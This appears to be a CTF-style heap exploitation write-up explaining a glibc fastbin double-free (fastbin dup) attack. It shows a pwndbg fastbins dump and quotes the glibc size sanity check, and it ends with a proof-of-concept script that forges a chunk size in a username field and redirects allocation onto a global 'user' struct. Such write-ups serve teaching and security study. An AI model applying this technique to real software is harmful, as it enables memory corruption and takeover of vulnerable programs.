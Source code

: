 
So the fastbins layout (the `user` struct begins with 16 bytes of username, hence the target located exactly at the user content of the chunk):

```bash
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x603030 —▸ 0x603000 —▸ 0x602010 (user) ◂— 0x58585858585858 /* 'XXXXXXX' */
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

By allocating 3 chunks to the 0x30 fastbin, we may override the target address. 

It is important to make sure our fake chunk `size` field corresponds to the fastbin allocation.

That is due to the following mitigation:

```c
if (__glibc_likely (victim != NULL))
  {
    size_t victim_idx = fastbin_index (chunksize (victim));
   if (__builtin_expect (victim_idx != idx, 0))
 ►   malloc_printerr ("malloc(): memory corruption (fast)");
   check_remalloced_chunk (av, victim, nb);
```

`victim` stands for the fastbin candidate we would like to re-allocate for the requested malloc call. 

There is a sanity check, that the chunk's `size` field corresponds with a correct fastbin index, `idx`. \
Therefore, it is important to insert a '1 = 0x31' to the 9th byte of the `username` field. 

Full POC:

```c
# Set the username field.
username = b"Z" * 8 + b"1"
io.sendafter(b"username: ", username)
io.recvuntil(b"> ")

# Request two 0x30-sized chunks and fill them with data.
chunk_A = malloc(0x28, b"A"*0x28)
chunk_B = malloc(0x28, b"B"*0x28)

# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)

# Will be allocated with chunk_A.
# First 8 bytes are the fd ptr, so we create a fake, controlled chunk at 'user' address
dup = malloc(0x28, p64(elf.sym.user))


chunk_C = malloc(0x28, b"C"*0x28)
chunk_D = malloc(0x28, b"D"*0x28)
exp_chunk = malloc(0x28, b"NODERNEDER,NEDERNODER!")
```
